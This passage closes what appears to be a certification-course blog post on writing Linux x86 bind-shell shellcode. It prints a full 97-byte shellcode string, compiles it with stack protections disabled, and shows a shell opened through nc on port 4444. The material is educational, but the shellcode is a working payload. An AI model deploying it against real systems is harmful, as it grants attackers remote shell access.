 ```python

```

Now to test, this time with a different port.

```
absolomb@ubuntu:~/SLAE/assignments/1$ python3 bindport.py 4444
Shellcode:
\x31\xc0\x31\xdb\x31\xc9\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x31\xd2\x52\x66\x68\x11\\\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x50\x57\x89\xe1\x43\x43\xb0\x66\xcd\x80\x31\xd2\x52\x52\x57\x43\x89\xe1\xb0\x66\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80
absolomb@ubuntu:~/SLAE/assignments/1$ vim shellcode.c
absolomb@ubuntu:~/SLAE/assignments/1$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/1$ ./shellcode
Shellcode Length:  97
```

```
absolomb@ubuntu:~$ netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
absolomb@ubuntu:~$ nc localhost 4444
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success! There is obviously some improvements that could be made to the assembly to help further shrink down the shellcode even more but this is a good start. Perhaps for the reverse shell option next I'll use some new and more efficient instructions. Thanks for reading if you made it this far!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>